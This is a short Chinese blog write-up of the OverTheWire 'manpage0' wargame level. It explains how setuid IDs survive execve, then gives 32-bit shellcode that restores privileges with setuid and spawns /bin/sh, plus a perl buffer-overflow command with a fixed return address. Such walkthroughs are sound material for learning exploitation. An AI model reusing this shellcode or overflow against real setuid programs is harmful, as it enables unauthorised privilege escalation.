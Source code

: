 ```yaml
---
title: manpage0
author: rk700
layout: post
redirect_from: /writeup/2014/07/18/manpage0
tags:
  - OverTheWire
  - exploit
---
```

有2点：

1.  execve，如果ST_NOSUID没有设的话，新执行的程序的rid不变，eid会变如果suid设了，saved suid也会被保存为eid，这样我们就可以在之后用setuid来恢复
2.  setuid如果权限够了(root?)，就把2个id都设了；否则只设eid，rid和saved suid不变

于是还是溢出，不过shellcode中要先恢复权限 

{% highlight nasm %}
BITS 32
;setuid
xor ebx, ebx 
mov bx, 17001
xor eax, eax 
mov al, 23
int 0x80

xor eax, eax 
push eax 
mov edx, esp 
push 0x68732f2f
push 0x6e69622f ;/bin//sh
mov ebx, esp 
push eax 
push ebx 
mov ecx, esp 
mov al, 11
int 0x80
{% endhighlight %}

dest和返回地址距离是256+8+4=268，于是

<pre>$ /manpage/manpage0 `perl -e 'print "A"x268 . "\xd8\xd8\xff\xff"'`</pre>